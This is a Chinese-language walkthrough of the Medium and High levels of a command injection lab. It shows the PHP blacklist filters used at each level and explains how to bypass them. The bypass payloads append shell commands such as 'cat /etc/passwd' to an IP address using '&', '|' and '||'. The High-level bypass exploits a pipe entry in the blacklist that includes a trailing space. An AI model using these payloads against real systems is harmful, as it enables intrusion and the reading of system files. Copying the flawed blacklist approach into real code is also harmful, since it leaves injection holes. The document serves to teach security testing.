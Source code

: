 

![img](https://image.3001.net/images/20200523/15902049347014.png)



## Medium

直接看关键部分的代码吧：

```php
$substitutions = array(
  '&&' => '',
  ';'  => '',
); 

// 移除黑名单字符
$target = str_replace( array_keys( $substitutions ), $substitutions, $target );
```

可以看到这里黑名单只过滤了两种情况，实际上依然还可使用如下 Payload：

```bash
127.0.0.1 & cat /etc/passwd
127.0.0.1 | cat /etc/passwd
233 || cat /etc/passwd
```

## High

首先来看下 High 级别的过滤代码：

```php
$substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );
```

这里乍一看敏感字符都被过滤了，这里实际上是考擦眼力的地方：

```php
'| ' => '',
```

没错这个管道符是 | 是带空格的，所以这里我们不使用空格的话依然可以绕过：

```bash
127.0.0.1 |cat /etc/passwd
127.0.0.1|cat /etc/passwd
```
